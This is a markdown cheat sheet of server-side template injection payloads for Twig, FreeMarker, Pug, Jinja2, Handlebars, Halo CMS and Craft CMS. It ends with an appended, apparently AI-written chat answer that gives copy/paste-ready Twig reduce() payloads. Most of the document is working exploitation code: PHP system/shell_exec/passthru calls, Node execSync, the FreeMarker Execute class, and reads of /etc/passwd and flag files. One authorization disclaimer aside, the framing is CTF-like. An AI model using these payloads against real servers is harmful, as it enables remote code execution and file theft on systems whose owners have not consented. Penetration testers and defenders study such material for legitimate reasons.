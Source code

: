 # Server-Side Template Injection (SSTI) - Discovery and Exploitation Guide

> Author: Offensive Security Enthusiast
> Last Updated: 2025-05-20

---

## Table of Contents

* [What is SSTI?](#what-is-ssti)
* [General Detection Payloads](#general-detection-payloads)
* [Twig](#twig)
* [Apache FreeMarker](#apache-freemarker)
* [Pug (formerly Jade)](#pug-formerly-jade)
* [Jinja2 (Python)](#jinja2-python)
* [Mustache & Handlebars (JS)](#mustache--handlebars-js)
* [Halo CMS](#halo-cms)
* [Craft CMS](#craft-cms)
* [References](#references)

---

## What is SSTI?

**Server-Side Template Injection (SSTI)** occurs when user-controlled input is unsafely embedded into a server-side template engine. If exploitable, attackers can execute arbitrary code, read files, or perform RCE.

---

## General Detection Payloads

Use these to identify SSTI vulnerabilities:

```text
{{7*7}}        # Twig, Jinja2
${7*7}         # FreeMarker, Velocity
<%= 7*7 %>     # Pug, EJS
{{= 7*7 }}     # Handlebars/Mustache
```

Check for a response containing `49`. If yes, it's likely vulnerable.

---

## Twig

**Language**: PHP
**Used in**: Symfony, Laravel, Craft CMS

### Detection

```twig
{{7*7}}                    # -> 49
{{['A','B']|join}}         # -> AB
```

### Exploitation

```twig
{{_self.env.registerUndefinedFilterCallback('system')}}
{{'cat /etc/passwd'|filter}}
```

```twig
{{ ['cat /var/www/flag.txt']|map('system') }}
```

```twig
{{[0]|reduce('system','cat /var/www/flag.txt')}}
```


### File Read Example

```twig
{{ constant('file_get_contents')('/var/www/flag.txt') }}
```

---

## Apache FreeMarker

**Language**: Java

### Detection

```ftl
${7*7}     # -> 49
${"freemarker"?api}  # See available methods
```

### Exploitation (Read files)

```ftl
<#assign x = "freemarker.template.utility.Execute"?new()>
${x("cat /etc/passwd")}
```

---

## Pug (formerly Jade)

**Language**: JavaScript (Node.js)

### Detection

```pug
= 7 * 7      # -> 49
- console.log(process.env)  # Look for output in logs
```

### Exploitation (RCE)

```pug
- var exec = require('child_process').execSync
= exec('cat /etc/passwd')
```

---

## Jinja2 (Python)

**Used in**: Flask, Ansible, SaltStack

### Detection

```jinja
{{7*7}}            # -> 49
{{config.items()}} # Flask-specific
```

### Exploitation

```jinja
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

---

## Mustache & Handlebars (JavaScript)

### Detection

```handlebars
{{7*7}}      # Will likely render as-is unless logic-less extensions exist
```

**Note**: Logic-less — needs extensions to be exploitable.

### Possible Exploitation (Handlebars with helpers)

```js
{{#with (lookup this "constructor")}}
  {{#with (lookup this "constructor")}}
    {{eval "process.mainModule.require('child_process').execSync('cat /etc/passwd')"}}
  {{/with}}
{{/with}}
```

---

## Halo CMS

**Language**: Java
**Uses**: FreeMarker internally

### Exploitation

```ftl
<#assign x = "freemarker.template.utility.Execute"?new()>
${x("cat /flag")}
```

---

## Craft CMS

**Language**: PHP
**Template Engine**: Twig

### Detection / Exploitation

Same as Twig:
```
```twig
{{ _self.env.registerUndefinedFilterCallback('system') }}
{{ 'cat /etc/passwd'|filter }}
```

Look for variables like:

```twig
{% for k, v in _context %}{{k}}: {{v}}<br>{% endfor %}
```

---

## References

* [PortSwigger SSTI Cheat Sheet](https://portswigger.net/web-security/server-side-template-injection)
* [PayloadsAllTheThings - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
* [Craft CMS Security](https://craftcms.com/security)
* [Twig Documentation](https://twig.symfony.com/doc/)
* [FreeMarker Manual](https://freemarker.apache.org/docs/)

---

**Disclaimer**: Use this information only on systems you are authorized to test.

PHP Functions That Can Execute External Programs

Many PHP functions can execute commands. Here are common ones that accept a single argument (ideal for reduce()):
Function	Description	Usage Example
system()	Executes a command and outputs	system('id')
exec()	Executes and returns last line	exec('ls')
shell_exec()	Executes via shell and returns output	shell_exec('whoami')
passthru()	Executes and outputs raw result	passthru('cat /etc/passwd')
popen()	Opens process pipe (requires fread)	Not usable with reduce() alone
proc_open()	Too complex — not usable here	❌
🔧 Try These Payloads (Replace system with each)

```twig
{{ [0]|reduce('shell_exec','cat /var/www/flag.txt') }}
{{ [0]|reduce('exec','cat /var/www/flag.txt') }}
{{ [0]|reduce('passthru','cat /var/www/flag.txt') }}
```

💡 These are copy/paste ready. Just try each and see which works.
🧪 What's Happening?

With Twig's reduce, the syntax is:

array|reduce(callback_function, initial_value)

So with:

```twig
[0]|reduce('shell_exec', 'cat /var/www/flag.txt')
```

You're effectively executing:

shell_exec('cat /var/www/flag.txt');

Which returns the flag if allowed.
🚨 Important Notes

    Some PHP functions like popen() or proc_open() need more than one argument or extra handling, so they won't work with reduce() directly.

    If one function doesn't work, try the next — it might be due to sandbox restrictions.

✅ Summary

Try each of these in your Twig sandbox:

```twig
{{ [0]|reduce('shell_exec','cat /var/www/flag.txt') }}
{{ [0]|reduce('exec','cat /var/www/flag.txt') }}
{{ [0]|reduce('passthru','cat /var/www/flag.txt') }}
```

If successful, you’ll see the flag displayed. Let me know the output or if you want help chaining more advanced payloads!
